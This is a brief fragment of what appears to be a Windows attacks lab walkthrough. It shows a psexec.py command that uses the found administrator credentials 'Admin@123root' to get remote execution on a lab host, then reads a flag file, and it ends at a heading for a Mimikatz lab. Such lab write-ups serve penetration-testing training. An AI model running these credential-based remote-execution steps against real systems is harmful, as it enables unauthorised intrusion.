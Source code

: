 ![](windows-attacksassets/image-20230317220002907.png)

- Test the `administrator`:`Admin@123root` credentials with the `psexec` tool

```
psexec.py administrator@10.4.19.9
```

![](windows-attacksassets/image-20230317220734394.png)

```bash
cd C:\Users\Administrator\Desktop
type flag.txt
```

<details><summary>Reveal Flag: 🚩</summary></details>

------

## Lab 2 - Mimikatz
